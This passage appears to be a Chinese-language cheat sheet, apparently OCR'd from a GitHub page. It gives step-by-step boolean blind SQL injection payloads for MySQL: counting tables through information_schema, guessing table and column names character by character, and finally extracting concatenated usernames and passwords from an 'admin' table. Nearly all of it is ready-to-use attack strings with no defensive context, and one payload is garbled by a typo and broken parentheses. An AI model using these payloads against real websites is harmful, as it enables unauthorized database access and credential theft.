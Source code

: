   ```
  'or (select count(TABLE_NAME) from information_schema.TABLES where TABLE_SCHEMA=database()) = 2  --+   # 判断表的总数
  ```

- **猜解各个表名的长度**

  ```
  'or (select length(TABLE_NAME) from information_schema.TABLES where TABLE_SCHEMA=database() limit 0,1) = 5 --+
  'or (select length(TABLE_NAME) from information_schema.TABLES where TABLE_SCHEMA=database() limit 1,1) = 5 --+ （第二个表）
  ```

- **猜解第一个表名**

  ```
  'or mid((select TABLE_NAME from information_schema.TABLES where TABLE_SCHEMA = database() limit 0,1),1,1) = 'a'  --+
  或者
  'rr ord(mid(select TABLE_NAME from information_schema.TABLES where TABLE_SCHEMA = database() limit 0,1),1,1)) >100  --+
  ```

- **猜解表的字段的总数**

  ```
  'or (select length(column_name) from information_schema.COLUMNS where TABLE_NAME='表名' limit 0,1) = 10 --+
  'or (select length(column_name) from information_schema.COLUMNS where TABLE_NAME='表名' limit 1,1) = 10 --+ （第二个字段）
  ```

- **猜解第一个字段名**

  ```
  'or mid((select COLUMN_NAME from information_schema.COLUMNS where TABLE_NAME = '表名' limit 0,1),1,1) = 'i' --+
  或者
  'or ORD(mid((select COLUMN_NAME from information_schema.COLUMNS where TABLE_NAME = '表名' limit 0,1),1,1)) > 100 --+
  或者直接猜解
  ' or (select COLUMN_NAME from information_schema.COLUMNS where TABLE_NAME='表名' limit 1,1) = 'username' --+
  ```

- **猜解内容长度**

  ```
  假如已经知道字段名为  id   username password
  'or (select Length(concat(username,"---",password)) from admin limit 0,1) = 16  --+
  ```

- **猜解内容**

  ```
  'or mid((select concat(username,"-----",password) from admin limit 0,1),1,1) = 'a' --+
  或者
  'or ORD(mid((select concat(username,"-----",password) from admin limit 0,1),1,1)) > 100 --+    ASCII码猜解
  或者直接猜解
  'or (Select concat(username,"-----",password) from admin limit 0,1 ) = 'admin-----123456'   --+
  ```

